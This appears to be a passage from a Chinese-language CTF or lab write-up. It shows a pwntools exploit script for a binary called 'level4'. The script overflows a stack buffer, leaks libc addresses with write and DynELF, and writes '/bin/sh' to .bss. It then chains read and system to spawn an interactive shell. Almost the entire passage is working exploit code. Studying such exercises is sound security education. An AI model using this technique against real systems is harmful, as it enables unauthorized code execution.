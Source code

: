    def leak(address):
	    payload1 = "A" * 0x88+'aaaa' + p32(write_plt) + p32(vuln_addr) + p32(1) + p32(address) + p32(4)
	    p.sendline(payload1)
	    leak_addr = p.recv(4)
	    log.info("leak_addr: %#x => %s" % (address, (leak_addr or '').encode('hex'))) #打印leak的过程
	    return leak_addr
    
    d = DynELF(leak, elf=ELF('./level4'))
    system_addr = d.lookup('system', 'libc') #泄露libc库中system的位置
    log.info("system_addr = " + hex(system_addr))  #log.info打印system函数地址
    
    bss_addr = elf.symbols['__bss_start']
    
    pppr = 0x8048509
    
    payload2 = "B" * 0x88 +'aaaa' + p32(read_plt) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8)+ p32(system_addr) + p32(vuln_addr) + p32(bss_addr)
    
    p.sendline(payload2)
    p.sendline("/bin/sh\0") 
    p.interactive()
    p.close()

![泄露libc库](/assets/img/log4.jpg)
